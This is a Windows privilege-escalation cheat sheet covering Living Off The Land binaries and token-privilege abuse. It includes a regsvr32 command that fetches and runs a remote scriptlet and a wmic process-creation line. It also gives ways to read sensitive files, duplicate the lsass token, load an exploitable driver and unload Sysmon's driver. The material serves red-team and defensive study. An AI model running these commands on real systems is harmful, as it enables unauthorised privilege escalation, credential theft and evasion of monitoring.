 ## EoP - Living Off The Land Binaries and Scripts

Living Off The Land Binaries and Scripts (and also Libraries) :
https://lolbas-project.github.io/

> The goal of the LOLBAS project is to document every binary, script, and
> library that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

- Be a Microsoft-signed file, either native to the OS or downloaded from
  Microsoft. Have extra "unexpected" functionality. It is not interesting to
  document intended use cases. Exceptions are application whitelisting bypasses
- Have functionality that would be useful to an APT or red team

```powershell
wmic.exe process call create calc
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
Microsoft.Workflow.Compiler.exe tests.xml results.xml
```

## EoP - Impersonation Privileges

Full privileges cheatsheet at https://github.com/gtworek/Priv2Admin, summary
below will only list direct ways to exploit the privilege to obtain an admin
session or read sensitive files.

| Privilege              | Impact      | Tool                    | Execution path                                                                                                                                                                                                                                                                                                                   | Remarks                                                                                                                                                                                                                                                          |
| ---------------------- | ----------- | ----------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `SeAssignPrimaryToken` | **_Admin_** | 3rd party tool          | _"It would allow a user to impersonate tokens and privesc to nt system using tools such as potato.exe, rottenpotato.exe and juicypotato.exe"_                                                                                                                                                                                    | Thank you [Aurélien Chalot](https://twitter.com/Defte_) for the update. I will try to re-phrase it to something more recipe-like soon.                                                                                                                           |
| `SeBackup`             | **Threat**  | **_Built-in commands_** | Read sensitve files with `robocopy /b`                                                                                                                                                                                                                                                                                           | - May be more interesting if you can read %WINDIR%\MEMORY.DMP<br> <br>- `SeBackupPrivilege` (and robocopy) is not helpful when it comes to open files.<br> <br>- Robocopy requires both SeBackup and SeRestore to work with /b parameter.                        |
| `SeCreateToken`        | **_Admin_** | 3rd party tool          | Create arbitrary token including local admin rights with `NtCreateToken`.                                                                                                                                                                                                                                                        |                                                                                                                                                                                                                                                                  |
| `SeDebug`              | **_Admin_** | **PowerShell**          | Duplicate the `lsass.exe` token.                                                                                                                                                                                                                                                                                                 | Script to be found at [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1)                                                                                                                                           |
| `SeLoadDriver`         | **_Admin_** | 3rd party tool          | 1. Load buggy kernel driver such as `szkg64.sys`<br>2. Exploit the driver vulnerability<br> <br> Alternatively, the privilege may be used to unload security-related drivers with `ftlMC` builtin command. i.e.: `fltMC sysmondrv`                                                                                               | 1. The `szkg64` vulnerability is listed as [CVE-2018-15732](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15732)<br>2. The `szkg64` [exploit code](https://www.greyhathacker.net/?p=1025) was created by [Parvez Anwar](https://twitter.com/parvezghh) |